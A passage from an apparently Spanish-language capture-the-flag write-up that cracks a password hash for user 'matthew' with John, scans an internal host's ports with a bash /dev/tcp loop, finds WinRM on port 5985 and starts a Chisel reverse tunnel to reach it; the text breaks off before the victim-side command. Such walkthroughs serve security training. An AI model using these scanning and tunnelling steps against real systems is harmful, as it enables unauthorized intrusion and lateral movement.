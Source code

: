 - Crackeamos este hash con John y encontramos una contraseña para el usuario "matthew".


# Bash scripting:

- Ahora podríamos enumerar los puertos abiertos en el contenedor creando una sencilla script en bash:


```bash
#!/bin/bash

function ctrl_c(){
        echo -e "\n\n[i] Saliendo...\n"
        tput cnorm; exit 1
}

#Ctrl+C
trap ctrl_c INT

tput civis

for port in $(seq 1 65535);do

        timeout 1 bash -c "echo '' > /dev/tcp/172.16.22.1/$port" 2>/dev/null && echo "[+] Port $port - OPEN" &

done; wait

tput cnorm
```


- Ejecutamos la script:

```bash
./escaneo_puertos.sh 2>/dev/null
[+] Port 5985 - OPEN
```


# Abuso de WinRM (Evil-Winrm) INTRUSIÓN:

- Vemos que está abierto el puerto 5985, el cual generalmente se trata del servicio "WinRM", lo que permitiría establecer una conexión remota a una shell de Windows, por lo que nos interesa poder interactuar con este puerto, para esto, hacemos un remote port forwarding con "Chisel" para crear un túnel y poder comunicarnos con el puerto 5985 desde nuestra máquina atacante:

##### En máquina atacante:

```bash
./chisel server -p 8000 --reverse
```


##### En máquina víctima:
